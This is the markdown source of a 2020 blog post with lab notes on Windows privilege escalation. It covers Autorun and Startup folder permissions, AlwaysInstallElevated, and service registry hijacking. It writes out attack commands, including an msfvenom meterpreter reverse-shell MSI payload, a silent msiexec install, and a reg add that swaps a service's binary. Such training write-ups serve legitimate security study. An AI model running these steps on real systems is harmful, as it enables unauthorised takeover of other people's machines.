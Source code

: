 ```yaml
---
layout: post
title: "Windows PrivEsc"
date:   2020-05-23 10:00:00
---
```

Here some of classic examples of windows priv esc (from Windows PrivEsc Arena/TCM)

# Windows - Accesschk
Accesschk is a useful console program for viewing the permissions on files, registry keys, services...
By combining the option:
{% highlight bash %}
-w : write access
-u : supress errors
-v : verbose
{% endhighlight %}
You can find directories in which you have write access with elevated privileges.

# Windows - Autorun
Autorun or Startup programs are services managed by the Service Manager
{% highlight bash %}
C:\Program Files\Autorun Program
{% endhighlight %}
If the permission for Everyone is FILE_ALL_ACCESS, so you just need to drop your program and wait for the admin to log in.

# Windows - Startup
This is the same thing as before, checking ACL permission:
{% highlight bash %}
iacls.exe C:\ProgramData\Microsoft\Windows\Start Menu\Prgrams\Startup
{% endhighlight %}
If the output is on full access (F) for BUILTIN\Users, then drop your program to do a reverse shell.
The target need to be logon as Administrator for the privilege access.

# Windows - Always Installed Elevated
One good way to know is the Installed Elevated feature is enable is to do:

<img src="{{ site.baseurl }}/assets/img/vulnuniversity/alwaysinstalled.png">
{% highlight bash %}
HKLM: H_KEY_Local_Machine
HKCU: H_KEY_Current_User
{% endhighlight %}
It represents the configuration related to the local machine and to the current user.

So what you need to do is generate a msi package:
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your ip] -f msi -o setup.msi
{% endhighlight %}

And on the Windows machine execute it in background:
{% highlight bash %}
msiexec /quiet /qn /i C:\temp\setup.msi
/qn: no UI
/i: normal installation
/quiet: quiet mode (no user interaction)
{% endhighlight %}

# Windows Registry
In order to verify the fullControl privilege on the services, with powershell you can check:
{% highlight bash %}
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
{% endhighlight %}
Should display: NT AUTHORITY\INTERACTIVE
That means you can create your custom service, replace the original one and execute it:
{% highlight bash %}
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /d c:\temp\service.exe /f
/v ImagePath: path of the service (this is the value)
/d for the data of the value
/f  add the registry key without prompting for confirmation
{% endhighlight %}
And then you can execute your service:
{% highlight bash %}
sc start regsvc
{% endhighlight %}
<img src="{{ site.baseurl }}/assets/img/vulnuniversity/services1.png">
<img src="{{ site.baseurl }}/assets/img/vulnuniversity/services2.png">
